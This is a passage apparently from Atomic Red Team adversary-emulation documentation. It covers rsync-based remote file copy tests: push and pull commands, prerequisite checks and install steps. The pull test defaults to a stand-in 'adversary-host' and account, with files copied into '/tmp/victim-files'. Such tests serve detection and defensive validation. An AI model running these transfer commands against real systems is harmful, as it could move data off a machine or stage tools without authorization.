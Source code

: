 #### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}
```

#### Dependencies: Run with `sh`!

##### Description: rsync must be installed on the machine

##### Check Prereq Commands:

```sh
if [ -x "$(command -v rsync)" ]; then exit 0; else exit 1; fi
```

##### Get Prereq Commands:

```sh
(pkg install -y rsync)||(sudo apt-get -y install rsync)
```

<br/>
<br/>

## Atomic Test #2 - rsync remote file copy (pull)

Utilize rsync to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 3180f7d5-52c0-4493-9ea0-e3431a84773f

#### Inputs:

| Name        | Description                                 | Type   | Default Value         |
| ----------- | ------------------------------------------- | ------ | --------------------- |
| remote_path | Path of folder to copy                      | path   | /tmp/adversary-rsync/ |
| remote_host | Remote host to copy from                    | string | adversary-host        |
| local_path  | Local path to receive rsync                 | path   | /tmp/victim-files     |
| username    | User account to authenticate on remote host | string | adversary             |

#### Attack Commands: Run with `sh`!

```sh
rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}
```

#### Dependencies: Run with `sh`!

##### Description: rsync must be installed on the machine

##### Check Prereq Commands:
